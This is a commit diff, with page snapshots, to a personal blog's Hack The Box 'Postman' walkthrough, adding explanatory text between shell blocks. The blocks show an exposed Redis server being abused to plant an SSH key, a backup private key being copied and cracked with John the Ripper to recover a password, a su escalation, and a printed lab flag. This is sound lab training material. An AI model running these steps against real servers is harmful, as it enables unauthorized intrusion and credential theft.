

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2020-03-16-Hackthebox-Postman-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 5077 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
WIP 03-16-postman-walkthrough

```diff
--- a/_posts/2020-03-16-Hackthebox-Postman-Walkthrough.md
+++ b/_posts/2020-03-16-Hackthebox-Postman-Walkthrough.md
@@ -117,15 +117,16 @@ OK
 10.10.10.160:6379>
 {% endhighlight %}
 
+Next, try to upload a public key for SSH.<br>
 {% highlight shell %}
 root@kali:~# (echo -e "\n\n"; cat .ssh/id_rsa.pub; echo -e "\n\n") > pubkey.txt
 {% endhighlight %}
-
 {% highlight shell %}
 root@kali:~# cat pubkey.txt | redis-cli -h 10.10.10.160 -x set pubkey
 OK
 {% endhighlight %}
 
+After that, save the key into the "/var/lib/redis/.ssh/authorized_keys".
 {% highlight shell %}
 root@kali:~# redis-cli -h 10.10.10.160
 10.10.10.160:6379> config set dir /var/lib/redis/.ssh
@@ -137,7 +138,8 @@ OK
 10.10.10.160:6379>
 {% endhighlight %}
 
-
+Now we can SSH into the server as an user redis.<br>
+However, we don't have the "user.txt" in the home directory of redis user.
 {% highlight shell %}
 root@kali:~# ssh redis@10.10.10.160
 The authenticity of host '10.10.10.160 (10.10.10.160)' can't be established.
@@ -160,6 +162,7 @@ uid=107(redis) gid=114(redis) groups=114(redis)
 redis@Postman:~$
 {% endhighlight %}
 
+With some enumeration, we can find an interesting file "id_rsa.bak" in the "/opt" directory.
 {% highlight shell %}
 redis@Postman:~$ ls /opt/
 id_rsa.bak
@@ -197,12 +200,16 @@ X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
 redis@Postman:~$
 {% endhighlight %}
 
+Try to download with scp.
 {% highlight shell %}
 root@kali:~# scp redis@10.10.10.160:/opt/id_rsa.bak /root
 id_rsa.bak                                                        100% 1743    38.3KB/s   00:00
 root@kali:~#
 {% endhighlight %}
 
+Kali Linux can brute-force the password with the John the Ripper.<br>
+However, we need to change the SSH private key into the hash which format is readable by John the Ripper.<br>
+By cracking with "rockyou.txt", we can achieve a password "computer2008" for someone.
 {% highlight shell %}
 root@kali:~# /usr/share/john/ssh2john.py id_rsa.bak > hash.txt
 
@@ -221,6 +228,8 @@ Warning: Only 2 candidates left, minimum 8 needed for performance.
 Session completed
 *{% endhighlight %}
 
+Actually, we have only one user "Matt" who is allowed to log in except redis.<br>
+This time, we can't SSH but we can run su command to be the user "Matt".
 {% highlight shell %}
 redis@Postman:~$ cat /etc/passwd
 root:x:0:0:root:/root:/bin/bash
@@ -256,18 +265,13 @@ Password:
 Matt@Postman:/var/lib/redis$
 {% endhighlight %}
 
+The user.txt is in the home directory of user "Matt".
 {% highlight shell %}
 Matt@Postman:~$ pwd
 /home/Matt
 
 Matt@Postman:~$ cat user.txt
 517ad0ec2458ca97af8d93aac08a2f3c
-
-Matt@Postman:~$ pwd
-/home/Matt
-Matt@Postman:~$ cat user.txt
-517ad0ec2458ca97af8d93aac08a2f3c
-Matt@Postman:~$Matt@Postman:~$
 {% endhighlight %}_
 
 
```
